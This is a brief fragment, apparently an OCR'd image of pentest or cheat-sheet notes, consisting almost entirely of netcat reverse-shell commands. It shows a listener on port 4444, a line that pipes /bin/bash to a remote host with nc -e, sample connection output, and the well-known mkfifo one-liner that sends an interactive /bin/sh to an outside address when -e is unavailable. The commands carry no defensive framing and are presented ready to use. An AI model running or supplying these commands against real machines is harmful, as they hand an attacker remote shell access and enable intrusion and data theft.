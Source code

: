 # 1) spawn listener for remote shell
```sh
nc -nlvp 4444
```

# 2) send bash to remote attacker
```sh
nc -nv 10.11.0.22 4444 -e /bin/bash
...
(UNKNOWN) [10.11.0.22] 4444 (?) open
```

# Without -e
```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

